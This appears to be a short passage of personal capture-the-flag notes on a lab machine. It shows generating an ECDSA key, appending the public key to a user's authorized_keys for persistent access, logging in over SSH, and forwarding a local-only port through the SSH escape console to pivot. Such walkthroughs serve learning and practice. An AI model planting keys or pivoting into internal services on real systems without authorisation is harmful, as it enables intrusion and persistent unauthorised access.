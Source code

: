 ##### gen ecdsa key

```bash
ssh-keygen -t ecdsa -b 521
```

pass path with file name _id_ecdsa_

![[Pasted image 20230919201726.png]]

##### public key to authorised_keys

with echo move public key to authorised keys

```bash
echo "ecdsa-sha2-nistp521 AAAAE2VjZHNhLXNoYTItbmlzdHA1MjEAAAAIbmlzdHA1MjEAAACFBAF8RoPKOXwQx2cl9ChH2VbZif9nsWHPE8UAMAdK7eMyUzBHvHsr9QeRmtVnO+V1nZh3q6EPW04k6mF8jbZbNTGBGAGvyQ0qMiuT68oR64ouKCqy9rro7+uWl3738G6HSqge5rv35gwwGe2ZVNlx4SsuI+PsRFSvqi09j0IuHQEqXTEbPw== splitunknown@splitunknown" >> authorized_keys
```

##### ssh to server

```bash
ssh -i key/id_ecdsa apaar@10.10.10.162
```

##### PIVOTING

```bash
netstat -nlpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```

```bash
~C
ssh>
```

```bash
ssh> help
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

```ssh
ssh> -L 9001:127.0.0.1:9001
Forwarding port.
```

![[pivoting.png]]
